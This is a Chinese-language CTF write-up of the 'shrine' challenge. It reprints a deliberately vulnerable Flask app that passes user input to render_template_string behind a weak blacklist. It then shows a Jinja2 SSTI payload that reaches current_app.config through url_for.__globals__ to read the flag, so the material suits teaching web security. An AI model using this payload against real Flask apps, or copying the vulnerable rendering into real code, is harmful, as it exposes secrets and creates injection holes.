 [[护网杯 2018\]easy_tornado - 简书 (jianshu.com)](https://www.jianshu.com/p/c4070d6f4249)

# shrine

- 沙盒逃逸
- ssti

![image-20220626125804186](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261258255.png?x-oss-process=hzy)

不难看出是python

```
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()\

@app.route('/shrine/')
def shrine(shrine):
   
   def safe_jinja(s):
       s = s.replace('(', '').replace(')', '')
       blacklist = ['config', 'self']
       return ''.join(['{{% set {}=None%}}'.format(c)for c in blacklist]) + s
       return flask.render_template_string(safe_jinja(shrine))
if __name__ == '__main__':
    app.run(debug=True)
```

[flask](https://so.csdn.net/so/search?q=flask&spm=1001.2101.3001.7020)框架

访问路径存在ssti

![image-20220626125932579](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261259631.png?x-oss-process=hzy)

他将config和self当成了黑名单 而flag在config文件里，如果没有黑名单的时候，我们可以传入 config，但当这些被过滤的时候，我们需要借助一些全局变量利用沙盒逃逸的方法，来调用被禁用的函数对象。

> current_app,这是全局变量代理，查看他的config即可

payload如下

```
{{url_for.__globals__['current_app'].config}}
```

![image-20220626130240859](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261302920.png?x-oss-process=hzy)

也可以获取全局文本
